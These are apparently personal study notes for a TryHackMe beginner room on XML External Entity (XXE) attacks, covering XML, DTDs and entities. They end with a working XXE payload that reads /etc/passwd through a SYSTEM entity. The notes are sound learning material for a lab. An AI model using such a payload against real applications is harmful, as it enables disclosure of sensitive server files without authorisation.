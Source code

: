 # TryHackMe: Complete Beginner (Supplements)

author:: Nathan Acks  
date:: 2021-12-09

## XXE

### Deploy the VM

I think I've basically done a different version of this room...

Anyways, two types of XML External Entity (XXE) attacks:

* IN-BAND attacks are where the attacker receives an immediate response.
* OUT-OF-BAND ("blind") attacks are when there is no immediate response and instead the attacker must receive the data indirectly (such as through a request to a second server under the attacker's control).

### eXtensible Markup Language

Some things to remember about XML documents:

* Start with the standard prolog: `<?xml version="1.0" encoding="UTF-8"?>`. This is not *technically* compulsory, but some parsers will barf if it's missing.
* Every XML document has one and *only* one root element.
* XML is case sensitive.

### DTD

The Document Type Definition defines/validates an XML document. For example, the DTD defined as

```dtd
<!DOCTYPE note [
	<!ELEMENT note (to,from,heading,body)>
	<!ELEMENT to (#PCDATA)>
	<!ELEMENT from (#PCDATA)>
	<!ELEMENT heading (#PCDATA)>
	<!ELEMENT body (#PCDATA)>
]>
```

validate the XML document

```xml
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE note SYSTEM "note.dtd">  
<note>  
	<to>falcon</to>  
	<from>feast</from>  
	<heading>hacking</heading>  
	<body>XXE attack</body>  
</note>
```

The root node is defined immediately after the DOCTYPE declaration, with each ELEMENT declaration taking the form `element_name (contained_data)`. `#PCDATA` stands for "printable character data.

The DTD can also define multiple ENTITY types - `&amp;` and similar.

```xml
<!DOCTYPE userInfo [
	<!ENTITY name "feast">
]>
<userInfo>
	<firstName>falcon</firstName>
	<lastName>&name;</lastName>
</userInfo>
```

Conveniently, DTD can be defined *in line*, and not just by included files.

These last two features are what we will leverage to attack applications that accept XML inputs.

### XXE Payload

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
	<!ENTITY read SYSTEM 'file:///etc/passwd'>
]>
<root>&read;</root>
```

The SYSTEM directive allows us to include other files... Possibly quite sensitive ones, depending on the permissions of our webserver and how good the application's input sanitization is.

